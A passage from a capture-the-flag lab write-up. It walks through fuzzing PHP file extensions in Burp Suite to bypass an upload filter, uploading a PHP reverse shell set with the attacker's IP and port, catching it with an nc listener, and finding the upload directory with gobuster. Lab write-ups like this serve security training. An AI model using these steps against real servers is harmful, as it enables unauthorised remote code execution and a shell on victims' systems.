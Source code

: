 ```

Content-Disposition: form-data; name="file"; filename="shell§.php§"
Content-Type: application/octet-stream -----------------------------9719036391959238806602173823
Content-Disposition: form-data; name="submit"
Submit -----------------------------9719036391959238806602173823--
```
We also need to set a wordlist, but for that we need to know what extension a PHP file can have. A quick google search can lead to the [page](https://www.studyhost.net/support/knowledgebase/53/What-are-valid-file-extensions-I-can-use-for-PHP-scripts.html) with the list of extensions.
```
.php
.php3
.php4
.php5
.phtml
```
Let the Burp Suite run and validate, that only `.phtml` will work in that case.

We will use a basic PHP reverse shell for that:

```
cp /usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php .
nano php-reverse-shell.php
mv php-reverse-shell.php php-reverse-shell.phtml
```
Don't forget to modify line 49 and 50 in it. It should be your tun0 IP and some random port:
```
$ip = '10.11.19.53';  // CHANGE THIS
$port = 53;       // CHANGE THIS
```
Start a listener with `nc`:

```
sudo nc -nlvp 53
```
File is uploaded now, but we need to open it to trigger the shell.
To find the location we can use the gobuster one more time:
```
gobuster dir -u http://10.10.73.131:3333/internal -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.73.131:3333/internal
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/07 12:50:33 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/uploads (Status: 301)
===============================================================
2020/10/07 12:50:59 Finished
===============================================================
```
Navigate to the `/uploads` directory and open a file. That will spawn the shell  

---